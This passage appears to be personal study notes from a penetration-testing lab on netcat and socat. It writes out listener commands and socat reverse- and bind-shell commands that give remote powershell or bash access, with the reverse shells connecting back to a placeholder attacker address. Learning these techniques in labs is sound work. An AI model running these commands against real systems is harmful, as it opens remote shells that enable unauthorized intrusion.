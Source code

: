     sudo rlwrap nc -lvnp 443

**However, this doesn't work(tm) on my linux boxes. I have no clue why, but it's supposed to work like described.**

## Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

### Reverse Shells with Socat

As mentioned previously, the syntax for `socat` gets a lot harder than that of `netcat`. Here's the syntax for a basic reverse shell listener in `socat`:

```commandline
socat TCP-L:<port> -
```

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:

```commandline
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

```commandline
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind Shells with Socat

On a Linux target we would use the following command:

```commandline
socat TCP-L:<PORT> EXEC:"bash -li"
```

On a Windows target we would use this command for our listener:

```commandline
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.
